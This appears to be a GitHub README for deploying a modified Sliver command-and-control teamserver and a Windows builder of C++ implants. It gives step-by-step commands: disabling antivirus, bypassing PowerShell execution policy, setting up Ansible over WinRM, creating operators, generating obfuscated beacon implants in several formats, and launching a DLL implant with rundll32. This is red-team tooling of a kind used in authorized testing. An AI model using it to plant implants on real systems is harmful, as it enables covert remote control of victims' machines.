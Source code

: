 # sliver-deployment

This repo contains automation scripts in order to deploy my own branch (**branch refactor/teamserver-interaction**) of sliver having P2P communications over beacons, along with a builder (**branch cppimplant** able to build C++ sliver implants for windows platform. Source code available of C++ implants is available here: https://github.com/MrAle98/Sliver-CPPImplant2. Probably can teach how to **NOT** write software in C++. The implant code is compatible only with the branch **refactor/teamserver-interaction** as It changes the way the implant interacts with the server in order to support P2P communications over beacons.

This repository deploys both a **sliver teamserver** and a **builder of C++ implants for the windows machine**. The **teamserver** is deployed on **linux machine**, the **builder** is deployed on a **windows machine**.

## Requirements

Requires to install:
* **ansible**
* [**pywinrm**](https://docs.ansible.com/ansible/latest/os_guide/windows_winrm.html) so that ansible con communicate with the windows VM over WinRM
* **go1.19.1**

Be sure that when you run go on your machine the symbolic link is pointing to go1.19.1.
```
┌──(kali㉿kali)-[/usr/bin]
└─$ ls -la go
lrwxrwxrwx 1 root root 26 13 ago 16.19 go -> /home/kali/go/bin/go1.19.1

┌──(kali㉿kali)-[/usr/bin]
└─$
```



## Deploy all locally

Here instructions about how to deploy the **teamserver** on a **local kali VM** and the **builder** on a **local windows VM**.

1. Clone repo with all submodules on kali VM.
```
$ git clone --recursive https://github.com/MrAle98/sliver-awsdeployment.git
```
2. disable AV on windows VM.
3. copy setup_local.ps1 on windows VM. Change username and password variable inside the script to be whatever you like. Default are `ansibleUser:ansiblePass`. Run the script (as administrator).

```
PS > powershell -ep bypass
PS > .\setup_local.ps1
[...]
You need to restart this machine prior to using choco.
Ensuring Chocolatey commands are on the path
Ensuring chocolatey.nupkg is in the lib folder
PS >
```

4. Restart the VM.

5. Run build-servers.sh.

```
$ ./build-servers.sh
[...]
GOOS=windows CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc CXX=x86_64-w64-mingw32-g++ go build -mod=vendor -trimpath -tags osusergo,netgo,cgosqlite,sqlite_omit_load_extension,client -ldflags "-s -w -X github.com/bishopfox/sliver/client/version.Version=v1.5.22 -X \"github.com/bishopfox/sliver/client/version.GoVersion=go version go1.19.1 linux/amd64\" -X github.com/bishopfox/sliver/client/version.CompiledAt=1723566051 -X github.com/bishopfox/sliver/client/version.GithubReleasesURL=https://api.github.com/repos/BishopFox/sliver/releases -X github.com/bishopfox/sliver/client/version.GitCommit=2772f8897de1a6cb7e37eb7ad9b529ac81dc8de5 -X github.com/bishopfox/sliver/client/version.GitDirty= -X github.com/bishopfox/sliver/client/assets.DefaultArmoryPublicKey=RWSBpxpRWDrD7Fe+VvRE3c2VEDC2NK80rlNCj+BX0gz44Xw07r6KQD9L -X github.com/bishopfox/sliver/client/assets.DefaultArmoryRepoURL=https://api.github.com/repos/sliverarmory/armory/releases" -o sliver-client.exe ./client
$ 
```

6. Update ./ansible_configs/inventory/win_inventory.yml with ip of your windows VM and username and password you set before.
```
[sliverbuilder]
192.168.119.132

[sliverbuilder:vars]
ansible_connection=winrm
ansible_user=ansibleUser
ansible_password=ansiblePass
ansible_winrm_server_cert_validation=ignore
```

7. Start sliver-server locally. Start multiplayer mode and create two operators: one is the builder the other one a normal operator.
```
└─$ ~/sliver-builds/sliver-server
[*] Loaded 16 aliases from disk
[*] Loaded 69 extension(s) from disk

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain cipher
[*] Server v1.5.22 - 1230ffeda7ec994d56e1ed0036b00b50508ca7d8
[*] Welcome to the sliver shell, please type 'help' for options

[server] sliver > multiplayer

[*] Multiplayer mode enabled!

[server] sliver > new-operator -l 192.168.161.50 -n winbuilder

[*] Generating new client certificate, please wait ...
[*] Saved new client config to: /home/kali/sliver-builds/winbuilder_192.168.161.50.cfg

[server] sliver > new-operator -n ale98 -l 127.0.0.1

[*] Generating new client certificate, please wait ...
[*] Saved new client config to: /home/kali/sliver-builds/ale98_127.0.0.1.cfg

[*] ale98 has joined the game

[server] sliver > operators

 Name         Status
============ =========
 winbuilder   Offline
 ale98        Offline

[server] sliver >
```

8. Move winbuilder_192.168.161.50.cfg under ansible_configs with name builder.cfg
```
$ mv winbuilder_192.168.161.50.cfg /path/to/ansible_configs/builder.cfg
```

9. run ansible playbook win-playbook_local.yml (It will take 1 hour or more). 
```
$ cd ansible_configs/
$ ansible-playbook -i inventory/win_inventory.yml win-playbook_local.yml
```

Now start a sliver-client on your kali machine and notice the builder was registered successfully and you can generate exe, dll, dotnet, powershell implants. Be careful to spawn HTTP/HTTPS listeners always with the `-D` option as the C++ implant do not provide full support for OTPs.

```
sliver > http -D
[...]
sliver > generate beacon --http http://192.168.161.50 -E -f dotnet

[*] Using external builder: DESKTOP-H8C0U5U
[*] Externally generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Creating external build ... done
 ⠹  External build acknowledged by builder (template: sliver) ... 1m32s
sliver > builders

 Name              Operator     Templates   Platform        Compiler Targets
================= ============ =========== =============== ==========================
 DESKTOP-H8C0U5U   winbuilder   sliver      windows/amd64   EXECUTABLE:windows/amd64
                                                            DOTNET:windows/amd64
                                                            POWERSHELL:windows/amd64
                                                            SHARED_LIB:windows/amd64
                                                            SERVICE:windows/386
                                                            SERVICE:windows/amd64
                                                            SHELLCODE:windows/386
                                                            SHELLCODE:windows/amd64

sliver > generate beacon --http http://192.168.161.50 -E -f dotnet

[*] Using external builder: DESKTOP-H8C0U5U
[*] Externally generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Creating external build ... done
[*] Build completed in 2m1s
[*] Build name: PRACTICAL_PIANO (9650688 bytes)
[*] Implant saved to /home/kali/sliver-builds/a.exe

sliver > generate beacon --http http://192.168.161.50 -E -f powershell

[*] Using external builder: DESKTOP-H8C0U5U
[*] Externally generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Creating external build ... done
[*] Build completed in 1m38s
[*] Build name: OPTIMISTIC_LAUNDRY (12872831 bytes)
[*] Implant saved to /home/kali/sliver-builds/a.ps1

sliver > generate beacon --http http://192.168.161.50 -E -f exe

[*] Using external builder: DESKTOP-H8C0U5U
[*] Externally generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Creating external build ... done
[*] Build completed in 1m18s
[*] Build name: STRAIGHT_DEPLOYMENT (3352576 bytes)
[*] Implant saved to /home/kali/sliver-builds/STRAIGHT_DEPLOYMENT.exe

sliver > generate beacon --http http://192.168.161.50 -E -f shared

[*] Using external builder: DESKTOP-H8C0U5U
[*] Externally generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Creating external build ... done
[*] Build completed in 1m16s
[*] Build name: LEGAL_LENGTH (3431424 bytes)
[*] Implant saved to /home/kali/sliver-builds/LEGAL_LENGTH.dll

sliver >
```

Dll entrypoint is **Entry**.

```
> rundll32.exe LEGAL_LENGTH.dll,Entry
```
